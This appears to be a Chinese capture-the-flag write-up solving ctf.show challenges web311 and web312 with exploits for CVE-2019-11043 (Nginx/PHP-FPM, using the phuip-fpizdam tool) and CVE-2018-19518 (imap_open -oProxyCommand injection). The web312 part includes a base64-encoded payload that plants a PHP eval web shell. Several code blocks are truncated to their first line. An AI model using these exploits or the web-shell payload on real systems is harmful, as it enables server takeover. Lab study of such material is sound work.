

phpCVE
web311
不知道是什么东西，跟着wp做就莫名其妙拿到shell了
CVE-2019-11043 是一个远程代码执行漏洞，使用某些特定配置的 Nginx + PHP-FPM 的服务器存在漏洞，可允许攻击者远程执行代码。
向Nginx + PHP-FPM的服务器 URL发送 %0a 时，服务器返回异常。
该漏洞需要在nginx.conf中进行特定配置才能触发。具体配置如下：
1 | location ~ [^/]\.php(/|$) { |
攻击者可以使用换行符（％0a）来破坏fastcgi_split_path_info指令中的Regexp。Regexp被损坏导致PATH_INFO为空，从而触发该漏洞。
影响范围
在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响，另外，PHP 5.6版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行：
- PHP 7.0 版本
- PHP 7.1 版本
- PHP 7.2 版本
- PHP 7.3 版本
做题我们要使用的工具是phuip-fpizdam，基于Go语言的。
先在虚拟机上配置好语言环境和工具。（root）
1 | //更新一下apt |
1 | //下载工具源码，下不了的话科学上网开全局 |
Google当中先看看network
1 | Server:nginx/1.18.0 (Ubuntu) |
是CVE-2019-11043的特征，并且版本也满足。我们选择用工具一把梭。
工具文件夹里面开终端，换成root，执行：（URL后面要加一个/index.php）
1 | go run . "https://205bc045-a30a-43e0-8e4a-f50661152144.challenge.ctf.show/index.php" |
执行过程有一点慢
之后可以直接拿到shell
/index.php?a=ls
/index.php?a=cat fl0gHe1e.txt
此漏洞与二进制相关：
https://xz.aliyun.com/news/6275
https://xz.aliyun.com/news/6276
web312
CVE-2018-19518
漏洞介绍
IMAP协议（因特网消息访问协议）它的主要作用是邮件客户端可以通过这种协议从邮件服务器上获取邮件的信息，下载邮件等。它运行在TCP/IP协议之上，使用的端口是143。在php中调用的是imap_open函数。
PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。利用此漏洞的功能代码是Metasploit Framework的一部分。
imap_open(string $mailbox,string $user,string $password)
其中参数mailbox,是用来连接邮箱服务器的。它会调用rsh来连接远程shell而，debian/ubuntu中默认使用ssh来代替rsh，如下图：

又因为ssh命令中可以通过设置-oProxyCommand=来调用第三方命令，所以攻击者通过注入这个参数，最终将导致命令执行漏洞。
1 | ssh -oProxyCommand ="tac /flag|tee /tmp/executed"localhost |
ProxyCommand，连接服务器的这样的一个命令具体说明如下：
1 | ProxyCommand 指定用于连接服务器的命令。命令字符串扩展到行的末尾，并使用用户的shell’ exec’指令执行，以避免延迟的shell进程。 ProxyCommand接受TOKENS 部分中描述的令牌的参数。该命令基本上可以是任何东西，并且应该从其标准输入读取并写入其标准输出。它应该最终连接在某台机器上运行的sshd服务器，或者在sshd -i某处执行。主机密钥管理将使用所连接主机的HostName完成（默认为用户键入的名称）。设置命令以none完全禁用此选项。请注意， CheckHostIP无法与代理命令连接。 该指令与nc及其代理支持结合使用非常有用。例如，以下指令将通过192.0.2.0的HTTP代理连接： ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p |
解析命令时还会有问题。要绕过斜杠和空格的转义。用$IFS和\t或者base64编码和相关命令再解码。如下：
1 | echo "echo hello|tee /tmp/executed"|base64 |
影响版本
Ubuntu、Debian、Red Hat、SUSE
PHP 5.6.x < 5.6.39
开始做题。初始界面是邮箱登录，有三个参数可以输入，分别是邮箱、账号、密码。是CVE-2018-19518的特征。
看看network，版本条件都满足。
抓个包看看，三个参数是hostname、username、password，猜测后端PHP语言用了imap_open(string $mailbox,string $user,string $password)语句。满足条件。
直接固定payload打：
1 | #原始payload |
1 | hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycgPiAvdmFyL3d3dy9odG1sLzEucGhw%3d|base64%09-d|sh}&username=xxx&password=xxx |
访问/1.php，直接getshell post连接为1